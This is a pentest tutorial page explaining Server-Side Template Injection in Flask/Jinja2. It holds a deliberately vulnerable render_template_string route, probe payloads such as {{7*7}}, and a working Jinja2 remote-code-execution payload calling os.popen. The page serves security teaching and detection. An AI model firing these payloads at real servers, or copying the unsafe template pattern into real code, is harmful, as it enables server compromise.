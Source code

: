 # **Pentest Documentation: Server-Side Template Injection (SSTI)**

## **Introduction**

**Server-Side Template Injection (SSTI)** is a critical web vulnerability that occurs when user input is concatenated
directly into a template without proper sanitization, allowing attackers to inject malicious template expressions. This
can lead to severe consequences of remote code execution (RCE), data leakage, and unauthorized actions on the server.

## **Understanding Server-Side Template Injection**

### **What is SSTI?**

Template engines are used in web applications to generate dynamic HTML pages. SSTI occurs when user-supplied input is
embedded directly into a template in an unsafe manner. If the template engine processes the input as code, an attacker
can execute arbitrary code on the server.

### **How Does SSTI Occur?**

SSTI vulnerabilities arise when:

- User input is **directly** inserted into templates without proper sanitization.
- The application uses **unsafe** methods to render templates.
- The template engine allows execution of arbitrary code (e.g., accessing attributes, invoking functions).

#### **Example of Vulnerable Code (Python with Jinja2):**

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/hello')
def hello():
    name = request.args.get('name', 'World')
    template = f'Hello {name}!'
    return render_template_string(template)
```

In this example, user input `name` is directly embedded into the template, making it vulnerable to SSTI.

## **Attack Scenario: Exploiting SSTI in Different Template Engines**

### **Identifying the Template Engine**

Before exploiting SSTI, it's crucial to identify the template engine in use. Clues can be found through:

- Error messages revealing the template engine.
- Syntax used in the templates (e.g., `{{ }}`, `{% %}`, `${ }`).

### **Exploitation Examples**

#### **Exploiting Jinja2 (Python)**

**Payload to Trigger SSTI:**

```plaintext
{{ 7*7 }}
```

**Expected Output:**

```
49
```

**Achieving Remote Code Execution:**

```plaintext
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

**Explanation:**

- `config.__class__.__init__.__globals__['os']` accesses the `os` module.
- `.popen('id').read()` executes the `id` command and reads the output.

## **Detection**

### **Manual Testing**

- **Inject Common SSTI Payloads:** Use payloads like `{{7*7}}`, `${{7*7}}`, `#{7*7}` in input fields to check for code
  execution.

- **Observe Responses:** If the server responds with evaluated expressions (e.g., `49`), SSTI is likely present.

## **Conclusion**

Server-Side Template Injection is a severe vulnerability that can lead to complete server compromise. By understanding
how SSTI occurs and implementing robust input validation and secure coding practices, developers and security
professionals can mitigate these risks effectively.

## **References**

- [HackTricks - Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection)
